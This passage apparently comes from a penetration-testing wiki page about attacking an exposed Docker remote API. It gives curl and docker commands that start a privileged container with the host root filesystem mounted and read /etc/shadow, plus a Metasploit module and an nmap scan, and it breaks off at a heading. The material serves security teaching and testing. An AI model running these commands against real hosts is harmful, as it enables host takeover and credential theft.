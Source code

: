 ```bash
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket2376/containers/create?name=test -d '{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/start?name=test
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /mnt/etc/shadow"]}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
#Stop the container
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/stop
#Delete stopped containers
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/prune
```

If you want more information about this, more information is available where I copied the commands from: [https://securityboulevard.com/2019/02/abusing-docker-api-socket/](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)

#### Automatic

```bash
msf> use exploit/linux/http/docker_daemon_tcp
nmap -sV --script "docker-*" -p <PORT> <IP>
```

### Compromising

In the following page you can find ways to **escape from a docker container**:

{% content-ref url="../linux-hardening/privilege-escalation/docker-security/" %}
[docker-security](../linux-hardening/privilege-escalation/docker-security/)
{% endcontent-ref %}

Abusing this it's possible to escape form a container, you could run a weak container in the remote machine, escape from it, and compromise the machine:

```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cat /mnt/etc/shadow
```

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py)

### Privilege Escalation

If you are inside a host that is using docker, you may [**read this information to try to elevate privileges**](../linux-hardening/privilege-escalation/#writable-docker-socket).

### Discovering secrets in running Docker containers
